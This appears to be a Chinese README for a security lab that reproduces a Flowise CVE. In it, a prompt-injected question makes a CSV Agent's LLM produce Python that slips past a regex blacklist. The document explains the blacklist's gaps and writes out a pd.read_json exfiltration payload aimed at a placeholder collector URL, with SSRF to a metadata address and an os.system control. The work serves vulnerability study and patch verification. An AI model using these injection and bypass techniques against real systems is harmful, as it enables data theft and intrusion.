


# flowise / CVE-2026-73487

状态：草稿。机制层复现已实现并通过本地差分核对；Docker 配方、镜像与三轮验收仍待 build / validate 阶段完成。

图解的唯一来源是 `diagram.toml`：编辑后运行 `python3 -m runner diagram flowise/CVE-2026-73487` 重新生成下方的图解区块。图解必须覆盖漏洞涉及的每个主体，并标出漏洞版/修复版的分歧步骤。

<!-- diagram:begin (generated from diagram.toml by `python3 -m runner diagram`; edit diagram.toml, not this block) -->
## 漏洞图解 — flowise / CVE-2026-73487 漏洞图解

CSV Agent 节点把攻击者注入的 question 交给大模型生成 Python，再交给 validatePythonCodeForDataFrame() 校验后执行。该校验器是一份默认放行的正则黑名单：38 条规则里没有任何一条覆盖会发起 HTTP 的 pandas 读取函数，也不拦截运行时拼接标识符，因此读取远程 URL 的代码被判为安全。校验通过后代码以服务端身份运行，可把数据集拼进 URL 外带，或访问内网地址形成 SSRF。修复版直接删除 CSV/Airtable Agent 与整个校验器，同一请求不再存在代码执行路径。

### 涉及主体

| 主体 | 类型 | 信任级别 | 在漏洞里的作用 | 来源 |
| --- | --- | --- | --- | --- |
| 未认证攻击者 (`attacker`) | `actor` | `attacker_controlled` | 通过默认放行的预测接口提交带提示注入的 question，并运营接收外带数据的收集端点。它能控制问题文本和自己的收集端点地址，但拿不到服务端的数据集。 | fixtures/prompt_injection_question.txt |
| 预测接口 /api/v1/prediction/:id (`prediction_api`) | `service` | `semi_trusted` | Flowise 服务端的预测入口，位于白名单 URL 中因此无需 API key 即可调用；它把请求里的 question 原样转交给被选中的 Agent 节点。 | packages/server/src/utils/constants.ts |
| CSV Agent 节点 (`csv_agent`) | `service` | `trusted` | 受影响的上游组件：它把 question 拼进提示词、把模型返回的 Python 交给正则校验器，并在通过后把代码送进执行运行时。修复版已把该节点整体删除。 | packages/components/nodes/agents/CSVAgent/CSVAgent.ts |
| 外部大模型服务 (`llm`) | `service` | `semi_trusted` | 被注入的提示词把它变成攻击者的代码生成器：它返回的 Python 片段会进入受信任的校验与执行流程。 | fixtures/model_output_attack.py |
| Python 代码正则校验器 (`regex_validator`) | `tool` | `trusted` | validatePythonCodeForDataFrame() 用 38 条正则黑名单做默认放行检查；它不覆盖会发起 HTTP 的 pandas 读取函数，因此读取远程 URL 的代码被判为安全。 | packages/components/src/pythonCodeValidator.ts |
| Python 执行运行时 (`python_runtime`) | `tool` | `trusted` | Agent 节点把校验通过的代码拼上 pandas/numpy 前置导入后在此执行，攻击者代码因此以服务端身份运行。 | packages/components/nodes/agents/CSVAgent/core.ts |
| CSV 数据集 (`csv_dataset`) | `store` | `trusted` | 攻击者想要但够不着的数据：上传给 Agent 的员工记录，其中包含只在这份数据里出现的标记值。 | fixtures/employee_records.csv |
| ⚠ 攻击者收集端点 (`collector`) | `sink` | `attacker_controlled` | 攻击者自己控制的接收端，用来承接被外带的数据集；它返回普通 JSON，使远程读取调用正常结束。 | fixtures/model_output_attack.py |

**信任边界**

- **攻击者侧** (`attacker_side`)：成员 `attacker`、`collector`。攻击者能控制提交的问题文本和自己的收集端点，但无法直接读取服务端的数据集。
- **外部模型侧** (`model_side`)：成员 `llm`。模型服务本身受信任，但它会把攻击者注入的指令带进受信流程，输出内容未经校验。
- **Flowise 服务端与它信任的数据** (`product`)：成员 `prediction_api`、`csv_agent`、`regex_validator`、`python_runtime`、`csv_dataset`。这道边界本应保证只有安全的 DataFrame 运算被执行；默认放行的正则黑名单没能拦住读取远程 URL 的代码。

标 ⚠ 的主体是本仓库合成的替身或无害效果载体，不代表真实外部目标。

### 触发过程

### 主体与信任边界

箭头上的数字是上面的步骤编号；方框只标主体和信任级别，具体动作见「触发过程」。

**分歧点**：第 6 步（`vulnerable_only`）38 条正则全部未命中，校验器返回 valid: true。
**分歧点**：第 7 步（`patched_only`）修复版已删除该节点与校验器，同一请求不再有代码校验和执行路径。
<!-- diagram:end -->

## 公告与机制

- Canonical：`CVE-2026-73487`（alias `GHSA-w7x8-q2gp-5cgg`，CNA VulnCheck），CVSS 3.1 `9.8 CRITICAL`。
- 受影响上游：`FlowiseAI/Flowise`，npm 包 `flowise` / `flowise-components` `< 3.1.3`。
- 根因：`packages/components/src/pythonCodeValidator.ts` 的 `validatePythonCodeForDataFrame()` 是一份**默认放行的正则黑名单**（38 条 `FORBIDDEN_PATTERNS`，全部未命中即 `{ valid: true }`）。
- 结构性缺口：黑名单不覆盖 `pd.read_json` / `pd.read_html` / `pd.read_csv` / `pd.read_fwf`（第一个参数接受 URL），`\bimport\b` 匹配不到 `importlib`，也不拦截 `chr()` 运行时拼接标识符。
- 触发链：未认证 `POST /api/v1/prediction/:id`（`WHITELIST_URLS` 放行）→ `CSVAgent.run()` 把 `question` 填进 LLM prompt → 提示注入让模型只输出恶意 Python → `validatePythonCodeForDataFrame()` 返回 `valid: true` → 代码拼上 `import pandas as pd\nimport numpy as np\n` 后交给 `pyodide.runPythonAsync()` → Pyodide 内的 pandas 发起出站请求，把数据集拼进 URL 外带，或访问 `169.254.169.254` 等内网地址（SSRF）。
- 修复形态：官方不是补一条检查，而是在 `f4e2794f6a576b94578f2fdafbf49c2fb304626c`（PR #6499）**整特性删除** —— 删掉 `pythonCodeValidator.ts`、`CSVAgent`、`AirtableAgent` 及其 `core.ts`，并在 `packages/components/package.json` 移除 `pyodide` 依赖；`3.1.3` 的 `09f099dbfda179e439ec677d06ad737375899eef` 包含该修复。

固定修订（本环境 pin 的值，build 阶段据此填 `metadata.toml`）：

| 角色 | 版本 | commit |
| --- | --- | --- |
| vulnerable | `flowise@3.1.2` | `4114b3b506e7bbee155141175a2ba48e426919dd` |
| fix | PR #6499 | `f4e2794f6a576b94578f2fdafbf49c2fb304626c` |
| patched | `flowise@3.1.3` | `09f099dbfda179e439ec677d06ad737375899eef` |

## 前提

- 服务端存在一个使用 CSV Agent（或 Airtable Agent）的 chatflow；预测接口在默认白名单中，因此攻击者不需要 API key。
- 攻击者只控制提交的 `question` 文本。它不需要 import、文件写权限或对宿主机的访问。
- 数据集在上传后存在于执行运行时内；攻击者本来读不到它。
- 大模型会把注入指令当作代码生成要求（真实链路依赖模型行为，机制复现用固定模型输出替代，见下）。

## 版本与启动

`metadata.toml` 的 `[vulnerable]` / `[patched]` 版本、commit 与 `build.inputs`、`build.base_image`，以及 `Dockerfile`、`compose.yaml` 由 build 阶段填写；本阶段不启动容器，也不构建镜像。

镜像提供：

- Python 3（`runtime.harness = "python3"`，入口 `/lab/reproduce.py`、`/lab/verify.py`），同时充当传输桥的宿主机 `python3`；
- Node ≥ 20.6（`rig/loader.mjs` 需要 `module.register()`）；
- **产品自身的 Pyodide 0.28.3**（npm `pyodide` 包）与 `pandas`/`numpy` 的 wasm wheel 闭包，离线预置；
- 按版本固定的**已发布 npm 包** `flowise-components-3.1.2.tgz` / `-3.1.3.tgz`，其 `package/dist` 就是被执行的真实转译产品代码；此时不需要转译步骤，也不需要安装 Flowise 的 npm 依赖闭包；
- 同一 commit 的 git 源码包，仅用于 revision 身份证据（`.avh-source-commit`、`package.json` 与 `.ts` 摘要）。

VARIANT 决定镜像里放哪一版：vulnerable 放 3.1.2，patched 放 3.1.3。

## 机制复现

`rig/driver.mjs` 在容器内驱动**固定版本产品的真实 `CSVAgent.run()`**，不重写漏洞函数，也不复制 product prelude：

1. 加载产品自己的 Pyodide 运行时并预载 pandas/numpy；在 `globalThis.__AVH__` 里放入模型输出 fixture 与 CSV 文件输入（格式与 Flowise UI 一致：`data:text/csv;base64,<b64>,filename:<name>`）。
2. 通过 `rig/loader.mjs` 只替换产品的外部依赖（langchain、Flowise 内部模块、`pyodide` 单例），随后 `import <dist>/nodes/agents/CSVAgent/CSVAgent.js`；`../../../src/pythonCodeValidator` 一律解析到固定包内**真实的** `src/pythonCodeValidator.js`，解析结果记入 `resolutions` 作为证据。
3. `CSVAgent.run()` 自己完成：解码 CSV → 真实 Pyodide `pd.read_csv` 得到列字典 → 第一次模型调用 → 真实校验器判定 → 通过后由产品调用自己的 `pyodide.runPythonAsync("import pandas as pd\nimport numpy as np\n" + code)`。
4. 攻击输入是 advisory 描述的向量 `pd.read_json("<collector>?d=" + df.to_json())`，模型输出取自固定 fixture（不调用真实模型 API）。收集端点是 `reproduce.py` 在容器回环地址上绑定的临时 HTTP 接收器；`__COLLECTOR_URL__` 占位符在运行时替换。数据集内容随查询串外带，接收器记录原始请求行作为效果证据。
5. 阳性对照：再驱动一次同一个 `CSVAgent.run()`，模型输出改为 `import os; os.system("id")`；真实校验器在执行前拒绝，只有 1 次模型调用与 1 次执行（CSV 载入），证明校验器不是无条件放行。

**Node 版 Pyodide 无法发起原始 TCP**：`pd.read_json(url)` 会直接抛 `URLError`。因此 driver 在产品 Pyodide 内安装 `rig/bridge/shim.py`，把产品自己会调用的 `urllib.request.urlopen` 经 NODEFS 挂载点转交给宿主 `python3` 进程，再把响应体读回。shim **不构造、不改写 URL**，只运输产品代码传入的地址；它只是把产品本就可以（用 `pyfetch`）发出的请求落地。

效果文件：`collector_requests.txt`（接收器看到的请求行）、`rig_result.json`（产品运行的原始记录：`executions`/`model_calls`/`resolutions`/`status`）、`control_result.json`（黑名单阳性对照）、`product_revision.json`（git 与 npm 包字节摘要）、`execution_result.json`；`observation.json` 显式记录 `target_ready` 与 `execution_status`。

**patched 侧的差分形态**：3.1.3 已删除校验器与两个 Agent 节点，因此修复版没有「校验拒绝」这条路径，而是「代码执行路径不存在」。driver 无法实例化 `CSVAgent.js`，记录 `mechanism_absent`、`executed = false`、0 次产品执行、接收器 0 请求；正常任务在 patched 侧同样没有执行路径，判定说明这一点，而不是由任何替身求值。

本地核对（不启动 Docker，用固定 npm dist + 宿主 Node 22/24 + Pyodide 0.28.3）四场景全部 `verdict.json` outcome=passed：

| variant / scenario | 真实校验器 | 产品执行 | 接收器请求 | 数据集标记外带 |
| --- | --- | --- | --- | --- |
| vulnerable / attack | 放行（随后被执行） | 是 | 1 | 是 |
| vulnerable / benign | 放行 | 是（答案匹配） | 0 | 否 |
| patched / attack | 模块缺失 | 否（`mechanism_absent`） | 0 | 否 |
| patched / benign | 模块缺失 | 否（`mechanism_absent`） | 0 | 否 |

## 端到端复现

真实模型链路（提示注入 → 模型生成恶意代码 → Pyodide 出站）依赖外部模型 API，按仓库 AGENTS.md，CI 不得调用真实模型。`end_to_end.py` 保持不适用；机制复现用固定模型输出证明校验器绕过与代码执行效果，**不声称**这是真实模型的端到端成功。

## 验证与修复对照

`verify.py` 由 validate 阶段产出首版、solve 阶段加固；它只读 `facts.json`、`observation.json` 与效果文件，不重跑攻击。判定按 `(variant, scenario)`：

- `vulnerable` + `attack` → `vulnerable_effect_observed`：执行代码等于产品自己的 prelude + 模型输出、由产品 `runPythonAsync` 返回 DataFrame；同一路径对黑名单对照抛出 `rejected for security reasons (Forbidden construct: import statement)`；接收器收到携带数据集标记与整份 DataFrame 序列化的请求。
- `patched` + `attack` → `patched_effect_blocked`：固定修订中不存在校验器与 Agent 节点（`mechanism_absent`），0 次产品执行、0 次模型调用、接收器 0 请求。
- `vulnerable` + `benign` → `benign_task_passed`：产品自己的 Pyodide 算出按部门平均工资 `{engineering: 130000, sales: 100000}`，无出站请求。
- `patched` + `benign` → `benign_task_passed`：同一能力已被整体删除，正常任务也没有执行路径；记录 `mechanism_absent`、无执行、无外带。
- `target_ready`：两版都必须加载固定修订与 Pyodide 运行时；vulnerable 还必须成功运行固定包里的真实校验器。

## 清理

默认运行器按每个测试的唯一 Compose project 清理容器、网络和 volume。`reproduce.py` 的接收器绑定在容器回环地址的临时端口上，进程退出即释放，不占用固定端口、不写宿主机。

## 失败诊断

| 现象 | 处理 |
| --- | --- |
| `target_ready = false` 且提示找不到源码树 | 检查 Dockerfile 是否解包 `build.inputs` 里的 git 归档，或设置 `AVH_UPSTREAM_SOURCE`。 |
| `target_ready = false` 且提示源码与 variant 不匹配 | vulnerable 镜像里必须有 `pythonCodeValidator.ts`，patched 镜像里必须没有；检查 `SOURCE_ARCHIVE`。 |
| 产品 Pyodide 未加载 | 镜像缺 `rig/node_modules/pyodide` 或 wheel 缓存；检查 build 第 5/6 步，`pyodide_version` 必须为 `0.28.3`。 |
| vulnerable 攻击没有接收器请求 | 检查 pandas 是否可用、模型输出 fixture 是否被替换、NODEFS 桥是否挂载、接收器是否绑定成功。 |
| vulnerable 攻击出现 `URLError`/`Host is unreachable` | 传输 shim 未安装成功：确认 `rig/bridge/shim.py` 已写入 Pyodide、`os.system` 能找到宿主 `python3`。 |
| patched 攻击出现产品执行或接收器请求 | 说明差分失效：确认执行的 npm 包里确实没有 CSV/Airtable Agent 与校验器。 |
| 正常任务答案不匹配（vulnerable） | 检查数据集 fixture 与 `expected_benign.json` 是否同步。 |

启动失败、健康检查失败和超时都不能当作修复阻断。

## 构建与输入

build 阶段需要固定：`build.base_image`（digest）、两版**已发布 npm 包** archive（`vulnerable.archive` / `patched.archive`，URL + SHA-256）、同一 commit 的 git 源码包（revision 证据）、Node、Pyodide 0.28.3 与 pandas/numpy 的 wasm wheel 闭包。所有安装必须支持 `--network none`。

## 隔离例外

默认无例外。接收器只在容器回环地址上监听，实验网络保持 `internal: true`。Pyodide 传输桥（`rig/bridge/shim.py` + NODEFS + 宿主 `python3`）是**harness 提供的 egress 管线**，不构造 URL、不增加产品本就没有的能力（Node 版 Pyodide 的 `pyfetch` 本来就能发请求），因此不需要 `runtime.exceptions`；它已如实记入 `metadata.toml [runtime].network_requirements`。

## 来源与许可

- 上游源码：`FlowiseAI/Flowise`（Apache-2.0），固定到上表 commit。
- Advisory：GHSA-w7x8-q2gp-5cgg / CVE-2026-73487。
- fixtures：本仓库合成的员工记录与固定模型输出，无真实数据、无真实外部目标地址。
